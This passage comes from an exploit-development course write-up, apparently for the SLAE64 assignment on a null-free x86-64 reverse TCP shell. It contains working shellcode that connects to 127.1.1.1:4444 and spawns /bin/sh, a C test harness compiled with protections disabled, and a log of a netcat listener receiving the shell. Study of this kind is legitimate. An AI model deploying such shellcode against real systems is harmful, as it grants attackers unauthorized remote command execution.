 ```term
        ; Push address of /bin//sh
        push rdi

        ; set RSI

        mov rsi, rsp

        ; Call the Execve syscall
        add rax, 59
        syscall
```

Let's assemble, link this and get its shellcode!

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B$ nasm -f elf64 1.asm -o 1.o && ld 1.o -o 1 && for i in $(objdump -d 1 -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo
```

###### C format

```term
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x48\x31\xc0\x48\x31\xff\x48\x31\xf6\x48\x31\xd2\xb0\x29\x48\xff\xc7\x48\xff\xc7\x48\xff\xc6\x0f\x05\x48\x89\xc7\x48\x31\xd2\x48\x31\xed\x66\x6a\x02\x66\x5d\x52\xc7\x44\x24\xfc
\x7f\x01\x01\x01\x66\xc7\x44\x24\xfa\x11\x5c\x66\x89\x6c\x24\xf8\x48\x83\xec\x08\xb0\x2a\x48\x89\xe6\xb2\x10\x0f\x05\xb0\x21\x48\x31\xf6\x0f\x05\xb0\x21\x48\xff\xc6\x0f\x05\xb0\
x21\x48\xff\xc6\x0f\x05\x48\x31\xc0\x50\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x89\xe7\x50\x48\x89\xe2\x57\x48\x89\xe6\x48\x83\xc0\x3b\x0f\x05"

;

main()
{
 
printf("Shellcode Length:  %d\n", (int)strlen(code));
 
int (*ret)() = (int(*)())code;
 
ret();
 
}
```

#### EndGame

```term
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B$ gcc reverse-null-free.c -o reverse-null-free -fno-stack-protector -z execstack -w 
whitecr0wz@SLAE64:~/assembly/assignments/Assignment_2/B$ ./reverse-null-free 
Shellcode Length:  126
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
whitecr0wz@SLAE64:~$ nc -lvp 4444 
listening on [any] 4444 ...
connect to [127.1.1.1] from localhost [127.0.0.1] 40484
id
uid=1000(whitecr0wz) gid=1000(whitecr0wz) groups=1000(whitecr0wz),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),111(bluetooth)
pwd
/home/whitecr0wz/assembly/assignments/Assignment_2/B
python3 -c 'import pty;pty.spawn("/bin/bash")';
whitecr0wz@SLAE64:/home/whitecr0wz/assembly/assignments/Assignment_2/B$ id 
```